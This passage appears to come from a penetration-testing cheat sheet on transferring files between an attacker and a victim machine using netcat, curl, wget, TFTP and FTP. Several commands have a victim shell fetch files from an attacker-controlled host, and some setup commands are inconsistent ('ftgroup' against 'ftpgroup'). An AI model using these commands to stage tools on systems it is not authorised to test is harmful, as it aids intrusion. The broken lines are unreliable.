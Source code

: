 	1.3.6.1.2.1.6.13.1.3 TCP Local Ports

# File Transfer Linux

<b>Netcat:</b>

	On Victim machine (client):

	nc -nlvp 4444 > <[FILE]>

	On Attacker machine (server):

	nc -nv 10.11.17.9 4444 < <[FILE_TO_SEND]>

<b>Curl:</b>

	curl -O http://<[IP]>/<[FILE]>

<b>Wget:</b>

	wget http://<[IP]>/<[FILE]>

<b>Recursive wget ftp download:</b>

	wget -r ftp://<[USER]>:<[PASSWORD]>@<[DOMAIN]>

# File Transfer Windows

<b>TFTP</b> (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.)

	On attacker machine:

	mkdir tftp

	atftpd --deamon --port 69 tftp

	cp <[FILE]> tftp

	On victim machine shell:

	tftp -i <[IP]> GET <[FILE]>

<b>FTP</b> (Windows operating systems contain a default FTP client that can also be used for file transfer)

On attacker machine:

	(UNA TANTUM) Install a ftp server. apt-get install pure-ftpd

	(UNA TANTUM) Create new user for PureFTPD (see script setup-ftp.sh) (USER demo, PASS demo1234)

		groupadd ftgroup

		useradd -g ftpgroup -d /dev/null -s /etc ftpuser

		pure-pw useradd demo -u ftpuser -d /ftphome

		pure-pw mkdb

		cd /etc/pure-ftpd/auth
